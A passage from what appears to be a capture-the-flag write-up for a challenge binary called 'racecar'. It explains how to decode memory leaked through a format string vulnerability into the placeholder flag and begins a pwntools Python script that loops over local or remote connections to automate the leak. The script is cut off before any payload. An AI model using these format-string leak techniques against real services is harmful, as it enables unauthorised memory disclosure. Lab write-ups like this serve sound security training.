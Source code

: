 Why is it happening? It is because the characters behind `0x` is in odd numbers. So we can try to erase the first character after `0x` which is the `a` character.

**}G** &rarr; **G}**

![](Images/ConvertToASCII6.png)

It works! If we combine it all together. It will be **`flag{FAKEFLAG}`**.

Now, if you are happy with this manual brute force method. You can try it on remote server. And convert it using the same method.

But! If you are interested to automate it, you can follow the following steps.

## Building a Python Script

To leak the flag using python script abusing `Format String Vulnerability`, this is the base script that I usually use.

```python
from pwn import *

isLocal = True

# converted from ASCII to hexadecimal
close_bracket_format = "7d"

is_found = False
count = 1

while not is_found:
	if isLocal:
		s = process("./racecar")
	else:
		host = ""
		port = 0

		s = remote(host, port)
```